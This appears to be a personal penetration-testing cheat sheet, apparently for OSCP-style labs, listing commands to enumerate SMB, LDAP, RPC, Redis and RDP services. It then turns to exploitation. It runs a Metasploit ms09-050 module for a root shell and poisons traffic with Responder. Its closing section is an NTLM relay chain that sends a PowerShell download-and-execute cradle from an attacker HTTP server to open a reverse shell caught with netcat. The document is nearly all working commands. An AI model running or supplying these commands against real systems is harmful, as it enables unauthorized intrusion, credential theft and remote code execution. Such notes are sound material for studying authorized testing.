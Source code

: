SMB, port 139/445
```
nxc smb ip -u '' -p ''
```
- also try with 'guest' user
null session/list shares
```
smbclient -L \\192.168.1.1 -N
```

```
lookupsid.py oscp.exam/anonymous@10.129.235.244 -no-pass
```
- used anonymous because when enumerating smb anonymously can see shares with `smbclient -L <ip> -N`
- to remove everything before the `\` use vim command:
	- `:%s/^.*\\//`
- to remove everything after the first space
	- `:%s/ .*$//`
if READ access to IPC$ share, can rid-brute users
```
netexec smb 10.10.11.236 -u guest -p '' --rid-brute
```

```
enum4linux -a -u "" -p "" <dc-ip> && enum4linux -a -u "guest" -p "" <dc-ip>
```

```
smbmap -u "" -p "" -P 445 -H <dc-ip> && smbmap -u "guest" -p "" -P 445 -H <dc-ip>
```

```
smbclient -U '%' -L //<dc-ip> && smbclient -U 'guest%' -L //<dc-ip>
```

```
nxc smb <ip> -u '' -p ''
```

```
nxc smb <ip> -u 'a' -p '' 
```

```
nxc smb <ip> --users
```

LDAP, port 389/636

```
ldapsearch -x -b "dc=hutch,dc=offsec" "user"  -H ldap://192.168.199.122 | grep dn
```
- check for users
- vim command to remove everything but names from output `:%s/^.*CN=\([^,]*\),.*$/\1/`
	- or try `:g/^dn: CN=\([^,]\+\),CN=Users,DC=hutch,DC=offsec$/s//\1/`


- vim command to reformat names with like `first.last` `:%s/^\(.*\) \([^ ]*\)$/\1.\2/`

```
ldapsearch -x -b "dc=hutch,dc=offsec" -H ldap://192.168.199.122 | grep description
```
- searches for descriptions
```
ldapsearch -x -b "dc=baby,dc=vl" "*"  -H ldap://10.10.88.213 | grep desc -A2
```
- searches for descriptions with more context)


```
nmap -n -sV --script "ldap* and not brute" -p 389 <dc-ip>
```

```
ldapsearch -d 1 -x -H ldap://10.10.5.122 -b "dc=VULNNET"
```

RPC, port 135
```
rpcclient -N -U '' 10.129.184.54
```
- `enumdomusers`
```
net rpc group members 'Domain Users' -W '<domain>' -I '<ip>' -U '%'
```

Redis NoSQL, Port 6379
```
redis-cli -h 10.10.246.197
```
- to retrieve all parameters from redis-cli, run ``CONFIG GET *``

if smb message signing is disabled, either eternal blue or more likely ms09-050
```
nmap -p139,445 --script "smb-vuln*" 192.168.188.40
```
- test if vulnerable
	- if so:
```
msfconsole
search ms09-050
use 0
set LHOST <my ip>
set RHOSTS <victim ip>
run
```
- root shell

RDP
```
xfreerdp /v:192.168.161.221 -sec-nla
```


Analyze behavior over network without responding
```
sudo responder -I tun0 -A
```
- can use this in combination with other exploits to see if anything is replayable
- make sure to enable SMB with `cat /usr/share/responder/Responder.conf | grep -i smb`
	- if Off, use `sudo sed -i "s/SMB = Off/SMB = On/" /usr/share/responder/Responder.conf` to turn it On

***NTLM Relay over SMB***
```
sudo sed -i "s/SMB = On/SMB = Off/" /usr/share/responder/Responder.conf
```
- turn off smb in responder (so doesnt conflict with ntlmrelayx)
- switch back to On to re-enable afterwards  `sudo sed -i "s/SMB = Off/SMB = On/" /usr/share/responder/Responder.conf`
```
nxc smb 172.16.117.0/24 --gen-relay-list relayTargets.txt
```
- create list of IPs from subnet with smb signing disabled, so can be used to relay, saved as file relayTargets.txt in current directory
```
sudo responder -I tun0 
```
- start responder
```
sudo ntlmrelayx.py -tf relayTargets.txt -smb2support
```
- output might show Administrator local SAM hash, if session relayed has privileged access on the target machine. if nothing useful in output, try command execution:
```
cp /home/daniel/Downloads/nishang-master/Shells/Invoke-PowerShellTcp.ps1 .
```
- copy Invoke-PowerShellTcp.ps1 to current directory
```
python3 -m http.server 8000
```
- serve Invoke-PowerShellTcp.ps1 on a http server
```
rlwrap -cAr nc -lnvp 7331
```
- catch the rev shell
```
sudo ntlmrelayx.py -tf relayTargets.txt -smb2support -c "powershell -c IEX(New-Object NET.WebClient).DownloadString('http://172.16.117.30:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 172.16.117.30 -Port 7331"
```
- assumes my IP is 172.16.117.30